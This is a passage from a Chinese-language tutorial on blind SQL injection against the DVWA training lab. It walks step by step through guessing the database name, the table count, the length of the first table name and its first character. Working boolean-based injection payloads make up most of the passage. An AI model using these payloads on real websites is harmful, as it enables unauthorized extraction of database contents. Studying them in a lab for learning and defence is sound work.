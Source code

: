 
重复上述步骤，就可以猜解出完整的数据库名（dvwa）了。

3.猜解数据库中的表名
首先猜解数据库中表的数量：


```
1’ and (select count (table_name) from information_schema.tables where table_schema=database())=1 # 显示不存在

1’ and (select count (table_name) from information_schema.tables where table_schema=database() )=2 # 显示存在
```


说明数据库中共有两个表。

接着挨个猜解表名：


```
1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 # 显示不存在

1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=2 # 显示不存在

…

1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 # 显示存在
```


说明第一个表名长度为9。


```
1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122 # 显示存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<109 # 显示存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103 # 显示不存在

1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # 显示不存在
```



说明第一个表的名字的第一个字符为小写字母g。

…
